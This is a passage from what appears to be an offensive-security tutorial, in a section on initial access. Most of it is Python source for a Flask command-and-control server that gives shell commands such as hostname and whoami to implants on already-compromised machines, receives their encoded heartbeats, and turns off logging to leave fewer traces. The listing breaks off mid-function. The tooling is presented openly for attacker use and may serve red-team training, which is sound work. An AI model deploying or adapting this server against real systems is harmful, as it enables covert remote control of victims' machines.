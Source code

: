 ### 2.3 Initial Access

We now have code execution on the machine using our simple `Flask` server. In order to make our lives a bit easier, we can "upgrade" to a more robust C2 interface. Below is an example, however, feel free to build your own!

```python
import base64
import json
import logging
from pprint import pprint
import queue

from flask import Flask, jsonify, request

# Jobs
jobs = queue.Queue()
jobs.put({'job_id': 'hostname', 'cmd': 'hostname'})
jobs.put({'job_id': 'whoami', 'cmd': 'whoami'})

app = Flask(__name__)

# Disable Flask Logging
app.logger.disabled = True
log = logging.getLogger('werkzeug')
log.disabled = True


def decode_message(message):
    return base64.b64decode(message).decode('utf-8')


def encode_message(message):
    return base64.b64encode(message.encode('utf-8')).decode('utf-8')


@app.route('/heartbeat/<message>')
def heartbeat(message):
    host = request.remote_addr
    message = json.loads(decode_message(message))
    hostname = message['systeminfo']['hostname']

    print(f'💓 Received heartbeat from {host} ({hostname})')

    return 'Received', 200


@app.route('/get-job/<message>')
def get_job(message):
    host = request.remote_addr
    message = json.loads(decode_message(message))

    print(f'➕ Received job request from {host} ({message})')

    try:
        # We are ignoring any other requests (e.g., for a specific job)
        if message == 'latest':
            if jobs.empty():
                print(f'❌ No jobs available')
                return 'No jobs available', 404
            else:
                job = jobs.get()
                print(f'➕ Sending job {job["job_id"]} ({job["cmd"][0:15]}) to {host}')
                return encode_message(json.dumps(job))
```
